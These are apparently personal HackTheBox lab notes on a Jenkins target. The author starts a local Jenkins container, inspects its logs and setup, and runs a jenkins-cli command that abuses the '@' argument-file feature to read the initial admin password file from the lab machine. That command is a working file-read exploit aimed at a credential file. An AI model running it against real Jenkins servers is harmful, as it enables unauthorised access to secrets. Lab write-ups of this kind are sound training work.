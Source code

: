 Start up the Jenkins docker container

```
docker run --rm -d jenkins/jenkins
```

![[HackTheBox/Linux/attachments/Pasted image 20250513215022.png]]

View docker logs 
```
docker logs d4cd
```

![[HackTheBox/Linux/attachments/Pasted image 20250513215128.png]]
- see the file path for the initial admin password 

Try to read this initial password 


```
java -jar jenkins-cli.jar -s http://10.10.11.10:8080 connect-node '@/var/jenkins_home/secrets/initialAdminPassword'
```

This file doesn't exist 
![[HackTheBox/Linux/attachments/Pasted image 20250513215407.png]]

Inspect the docker container 

```
docker inspect 
```

![[HackTheBox/Linux/attachments/Pasted image 20250513230950.png]]
- IP: `172.17.0.2`

Navigate to this IP in the browser and login with the password given during install.

![[HackTheBox/Linux/attachments/Pasted image 20250513231110.png]]

Start setting up Jenkins. 

Create  first admin user
![[HackTheBox/Linux/attachments/Pasted image 20250513231244.png]]

Then going back to the terminal...

Run docker ps to get the name of the container
```
docker ps
```

Attach to the container to interact with it

```
docker exec -it d4cd sh
```

![[HackTheBox/Linux/attachments/Pasted image 20250513231533.png]]
